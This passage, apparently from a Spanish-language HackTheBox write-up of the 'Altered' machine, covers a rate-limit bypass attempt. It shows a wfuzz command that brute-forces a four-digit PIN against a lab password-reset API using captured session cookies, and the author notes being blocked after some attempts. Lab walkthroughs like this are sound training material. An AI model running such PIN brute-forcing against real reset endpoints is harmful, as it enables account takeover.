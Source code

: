 ## Rate-Limit Bypass

- Lo que podemos hacer es Fuerza bruta al `PIN` con `wfuzz` pero primero tenemos que capturar la petición a la hora de mandar el PIN para saber como esta viajando la data.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/altered/5.png">
</p>

- Después de un cierto momento al parecer nos bloquean.

```bash
❯ wfuzz -c -t 200 -z range,0000-9999 -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InhFWnVudXJLVmhGM1IyWVFJbER0YkE9PSIsInZhbHVlIjoiWjIreGdWZGVoZDJtWmRiY0NGaEhraldmZE5KYVhuYzFIaWorWjQ4RXhUWitITTdnYk5HQW9uR0VTdjJVYVBjWEdLTXA3R3JzQjJIcVBCNzc5WmdoWFdDRVJXWEFHU1JzWTU0OHNlTXBIOVRJcVVuN0Q4eHRMUTRhSnB2eGQxdzkiLCJtYWMiOiIyZDQ2ZDhjZWQ0NTliY2M3NjQwNzE2ZjY5MDkxZGZkYjlkMTNkOTRkOTU1ODYwN2ZkZjZlMDljYTk5ZTE4N2U2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
```

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/altered/6.png">
</p>
